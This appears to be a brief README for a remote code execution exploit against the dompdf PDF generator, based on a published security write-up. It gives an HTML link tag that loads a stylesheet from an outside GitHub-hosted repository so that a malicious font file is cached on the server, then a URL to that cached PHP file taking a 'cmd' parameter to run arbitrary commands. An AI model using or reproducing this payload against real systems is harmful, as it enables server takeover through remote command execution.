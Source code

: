 inject this html tag to the pdf generator and it will access the exploit font that will then get caches and we can access it from the webserver
<link rel=stylesheet href="https://raw.githubusercontent.com/sneaky-wizard/dompdf_rce/main/exploit.css" />

to access the cached font and execute any command you want
[baseurl]/dompdf/lib/fonts/exploitfont_normal_4cbdc86ff75b10ac55846884a529e2f9.php?cmd=[command]



based on https://positive.security/blog/dompdf-rce
